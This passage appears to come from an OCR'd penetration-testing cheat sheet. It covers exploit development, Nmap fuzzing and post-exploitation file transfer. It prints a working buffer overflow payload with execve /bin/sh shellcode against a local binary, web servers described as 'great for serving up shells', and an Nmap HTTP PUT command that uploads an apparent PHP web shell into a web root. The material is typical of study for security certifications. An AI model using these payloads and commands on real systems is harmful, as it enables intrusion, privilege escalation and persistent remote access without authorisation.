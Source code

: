     -   Determine Pattern offset  
        ruby pattern\_offset.rb 0x6a413969

    -   Pass shell with offset value  
        env - ./r00t $(python -c 'print "A"\*268 +
        "\\x80\\xfc\\xff\\xbf" + "\\x90"\*16 +
        "\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"')  
        \# id

    -   From Fuzzing to Zero Day  
        https://blog.techorganic.com/2014/05/14/from-fuzzing-to-0-day/

-   Nmap Fuzzers:

    -   NMap Fuzzer List  
        [*https://nmap.org/nsedoc/categories/fuzzer.html*](https://nmap.org/nsedoc/categories/fuzzer.html)

    -   NMap HTTP Form Fuzzer  
        nmap --script http-form-fuzzer --script-args
        'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
        -p 80 $ip

    -   Nmap DNS Fuzzer  
        nmap --script dns-fuzz --script-args timelimit=2h $ip -d

File Transfers
============================================================================================================

-   Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.

-   Simple Local Web Servers

    -   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    -   Run a basic Python3 http server, great for serving up shells
        etc  
        python3 -m http.server

    -   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

    -   Run a basic PHP http server  
        php -S $ip:80

-   Creating a wget VB Script on Windows:  
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

-   Mounting File Shares

    -   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs

-   HTTP Put  
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php
